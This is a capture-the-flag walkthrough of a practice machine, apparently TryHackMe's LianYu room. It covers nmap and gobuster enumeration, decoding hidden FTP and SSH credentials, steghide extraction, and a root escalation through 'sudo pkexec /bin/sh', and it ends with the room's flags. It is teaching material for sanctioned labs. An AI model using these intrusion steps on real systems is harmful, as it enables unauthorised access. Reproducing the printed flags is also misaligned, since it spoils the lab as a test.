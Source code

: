 # 3

# Scanning the IP
  
  ```bash
  nmap -sC -sV 10.10.228.22 
```
  
  ![1](https://user-images.githubusercontent.com/119054834/204704431-03aa0bc5-a557-45db-be3a-bf06c28897cb.png)

```bash
Ports found ---
port 21/tcp - FTP - (vsftpd 3.0.2)
port 22/tcp - SSH - (OpenSSH 6.7p1)
port 80/tcp - HTTP - (Apache httpd)
port 111/tcp - RPC - (rpcbind) 
```

# Enumeration

```bash
Visit the IP 
```
![ipvisit](https://user-images.githubusercontent.com/119054834/204705444-427b5bd9-cf36-4f4c-b4d7-aff2af9cd883.png)
  ```bash
Now run gobuster for hidden Directories.

gobuster dir -u http://10.10.228.22/ -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![hidden dr](https://user-images.githubusercontent.com/119054834/204705829-a864fe7c-5d5a-41c3-9633-4c4911aadc30.png)
```bash
Found a directory : /island
```
```bash
Now go to the browser and serarch http://10.10.228.22/island
```

![highligj](https://user-images.githubusercontent.com/119054834/204706876-b704c5ba-2cc8-42b3-8996-5431943e365e.png)

![gottheword](https://user-images.githubusercontent.com/119054834/204706887-57e0d78d-d11a-4383-aa2f-67ce57c4a86c.png)

```bash
Found out the Code Word by highlighting the page text or viewing the page source.
Code Word -  'vigilante' - (this is our FTP username)
```

```bash
Again run gobuster on /island directory for discover a different directory.

gobuster dir -u http://10.10.228.22/island -w/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![2100](https://user-images.githubusercontent.com/119054834/204708983-f9f739b5-3547-4520-a4a7-9aa0f4c571f7.png)

```bash
Here we found another directory : /2100
```

```bash
Now doing the same again go to the browser and serarch http://10.10.228.22/island/2100
```
![pgsource](https://user-images.githubusercontent.com/119054834/204710087-412a785a-bcb9-4911-9ff6-3a227ac88d6f.png)

```bash
View the page source -- 
```
![ticket](https://user-images.githubusercontent.com/119054834/204710197-498e8a6b-9dfb-4560-a73d-552b80ba94db.png)

```bash
Here it says there is a file with a '.ticket' extension.
```
```bash
Now again run gobuster o look for files with a '.ticket' extension.

gobuster dir --url 10.10.228.22/island/2100 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket 
```
![green ticket](https://user-images.githubusercontent.com/119054834/204712070-d4d4d78d-b2e3-469b-9aba-5c60d55f9896.png)

```bash
Found another director : /green_arrow.ticket
```
```bash 
Again going to the browser search http://10.10.228.22/island/2100/green_arrow.ticket.
```
![rty](https://user-images.githubusercontent.com/119054834/204712578-aa367484-238c-44bf-ba96-ebdc69cd0202.png)

```bash
Seems we found an encryption : 'RTy8yhBQdscX' .  So now lets try to decode it ---

Go to https://gchq.github.io/CyberChef/

Use 'FromBase58' to decode it.
```
![hash](https://user-images.githubusercontent.com/119054834/204713677-f62752e5-e6f0-4133-a829-2134dac5a3b2.png)

```bash
Seems like we have cracked it : '!#th3h00d' - This is the FTP Password.
```

# Now the FTP Login

```bash
Now as we have the username and passowrd ---
Username - vigilante
password -!#th3h00d

We can log in to the FTP service - 
```
![img files](https://user-images.githubusercontent.com/119054834/204716038-9301adf5-77a7-4c40-bfbf-ccaed5680bf4.png)

```bash
We got two users: 'vigilante' and 'slade' .
Also found 3 image files in the server. Download them in you system --- Follow the down commands to download the files -- 
```
![download](https://user-images.githubusercontent.com/119054834/204720485-509a69d7-98d2-419b-a0db-559180554bfb.png)

```bash
Now view the image files and we see that 'Leave.me.alone.png' is not opening.
Also the exiftool shows 'File Format error'
```
![pics](https://user-images.githubusercontent.com/119054834/204725099-ee18de71-fe4a-4b75-97b9-8e7b131326e9.png)
![exiftool](https://user-images.githubusercontent.com/119054834/204725349-fddd169c-bf7a-43cb-a4dd-3b2ef3a9237e.png)

```bash
Checking the header file of the image we found that it is actually wrong there.
```
![change](https://user-images.githubusercontent.com/119054834/204731008-cc259d3e-f9e9-489b-8096-1fe53cf3f2af.png)

```bash
The correct header -- https://en.wikipedia.org/wiki/Portable_Network_Graphics
```
![correct](https://user-images.githubusercontent.com/119054834/204731135-e25be51b-ff4f-4182-839e-b00d892480e6.png)

```bash
Now lets change it -- 
```
![nowcorrect](https://user-images.githubusercontent.com/119054834/204731235-953dc235-9bd4-4a59-8301-743468b26887.png)

```bash
Now you can open the image file Here you got a password : 'password' 
```
![leaveme](https://user-images.githubusercontent.com/119054834/204734956-d1601a47-f823-4202-a206-e39b937150ad.png)

```bash
Now lets use steghide to extract any hidden files within the other image files.
```
```bash
steghide extract -sf aa.jpg
```
![extr](https://user-images.githubusercontent.com/119054834/204743926-86e6f2ee-527f-4f6c-8cf9-33bb466b4d12.png)

```bash
Now using the password 'password' we got earlier successfully extracted the .jpg file to a ss.zip file. 
We found a  a 'passwd.txt' and a 'shado file' unzipping the ss.zip file. 
```
![m3ta](https://user-images.githubusercontent.com/119054834/204744274-0025a238-5b73-462f-8af3-0d27b94f0b46.png)

```bash
Now cat 'shado' file and you get a password : 'M3tahuman' -- (ssh password)
```
![mt](https://user-images.githubusercontent.com/119054834/204745041-4fae5e35-7b71-4ab5-9b91-2b037dc0faf8.png)

# SSH Login

```bash
Now as we have got the ssh password we can now login -- 
User - slade 
password - M3tahuman
```
```bash
ssh slade@10.10.228.22   
```
![slade](https://user-images.githubusercontent.com/119054834/204746967-0dee761b-e105-4eb7-8160-52b84136945f.png)

```bash
Now that you're logged in search the user.txt flag --
```
```bash
slade@LianYu:~$ ls
user.txt
```
![user](https://user-images.githubusercontent.com/119054834/204747894-2d00d43a-79de-4ef6-9a74-760b325836e8.png)

```bash
user.txt - 'THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}'
```

# Root Privilege Escalation

```bash
To find which commands we can run with root privileges we can run: ---
```
```bash
sudo -l
```
![slade2](https://user-images.githubusercontent.com/119054834/204750224-9ce2ae79-8a5a-4ab0-bc02-44d43f8c7978.png)

```bash
After running sudo -l , it will again ask for slade password -- use the same password - 'M3tahuman'.


Now You see it says we can run the 'pkexec' with root privileges ---- So now we can run run '/bin/sh' program as root & get the root access.
```
```bash
sudo pkexec /bin/sh
```
![root](https://user-images.githubusercontent.com/119054834/204752313-4153109a-d8bb-4191-9ad8-cb91a8d4ecd5.png)

```bash
root.txt - 'THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}'
```

```bash
Submit the flags
```

I hope this was helpful.

thanks.
